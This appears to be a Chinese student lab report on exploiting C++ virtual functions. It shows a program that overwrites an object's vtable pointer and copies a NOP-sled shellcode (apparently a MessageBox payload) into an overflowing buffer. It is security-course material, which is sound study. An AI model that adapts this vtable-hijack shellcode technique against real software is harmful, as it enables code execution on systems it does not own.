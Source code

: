 # 2022-11-17-虚函数实验

## 一、目标

1.   了解虚函数攻击的基本原理
2.   调试虚函数攻击代码，理解虚函数工作机制与内存分布方式，掌握基本的虚函数攻击与计算方式。
3.   针对虚函数附加题程序，在不修改源代码的情况下，研究如何利用栈溢出的方式攻击目标代码，通过命令行的方式植入**shellcode**，弹出对话框。

## 二、 测试步骤与结果

### （一） 静态分析

```c++
#include <windows.h>
#include <iostream.h>
char shellcode1[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
"\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x5C\xE3\x42\x00";
class vf
{
public:
	char buf[200];
	virtual void test(void)
	{
		cout<<"Class Vtable::test()"<<endl;
	}
};
vf overflow, *p;
void main(void)
{
	LoadLibrary("user32.dll");
	char * p_vtable;
	p_vtable=overflow.buf-4;
	p_vtable[0]=0x30;
	p_vtable[1]=0xE4;
	p_vtable[2]=0x42;
	p_vtable[3]=0x00;
	strcpy(overflow.buf,shellcode1);
	p=&overflow;
	p->test();
}

```
